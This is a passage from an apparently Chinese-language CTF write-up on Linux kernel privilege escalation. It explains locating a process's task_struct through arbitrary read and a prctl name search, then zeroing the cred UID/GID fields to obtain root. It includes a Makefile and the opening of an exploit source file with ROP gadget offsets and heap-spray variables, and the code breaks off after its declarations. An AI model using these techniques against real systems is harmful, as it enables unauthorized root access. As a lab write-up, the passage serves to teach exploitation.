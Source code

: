 

之後會需要找當前 process 的 `task_struct`，並改對應的 `cred`，在此是透過任意讀 + `prctl(PR_SET_NAME)` 搜尋整個 heap，找到我們所設置的 process name 來取得 `task_struct` 的位址，而 process name 為 `task_struct` 當中的 `name` member，因此能透過 offset 求得 `cred` 的位址。`cred` 為 pointer，指向描述 process credentials 的結構 `struct cred`：

```c
// https://elixir.bootlin.com/linux/latest/source/include/linux/cred.h#L110
struct cred {
	atomic_t	usage;
#ifdef CONFIG_DEBUG_CREDENTIALS
	atomic_t	subscribers;	/* number of processes subscribed */
	void		*put_addr;
	unsigned	magic;
#define CRED_MAGIC	0x43736564
#define CRED_MAGIC_DEAD	0x44656144
#endif
	kuid_t		uid;		/* real UID of the task */
	kgid_t		gid;		/* real GID of the task */
	kuid_t		suid;		/* saved UID of the task */
	kgid_t		sgid;		/* saved GID of the task */
	kuid_t		euid;		/* effective UID of the task */
	kgid_t		egid;		/* effective GID of the task */
	kuid_t		fsuid;		/* UID for VFS ops */
	kgid_t		fsgid;		/* GID for VFS ops */
    ...
```

其中 member Xid 用來描述當前 process 的執行身份。如果我們能夠將這些 value 寫成 0，kernel 就會認為我們當前的執行身份是 root/root，此時 usermode 呼叫 `system("/bin/bash")` 時就會繼承 `cred`，因此擁有 root 的執行權限，做到提權。



Makefile：

```makefile
all:
	musl-gcc -o exp -static ./exp.c
	strip -s ./exp
	mount -o loop ./rootfs.img owo
	cp exp ./owo
	umount owo
```



Exploit：

```c
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/prctl.h>
#define TTY_MAGIC		0x5401

unsigned long mov_rax_prdx_ret = 0x5efab5; // mov rax, qword ptr [rdx] ; ret
unsigned long mov_prdx_esi = 0x43575b; // mov dword ptr [rdx + 0x10], esi ; ret

int ctf_fd;
char *chr_ptr;
unsigned *u32_ptr;
unsigned long *u64_ptr;
unsigned long file_operations;
unsigned long kernel_base;
unsigned long heap;
int spray[0x100];
int target_fd = -1;

```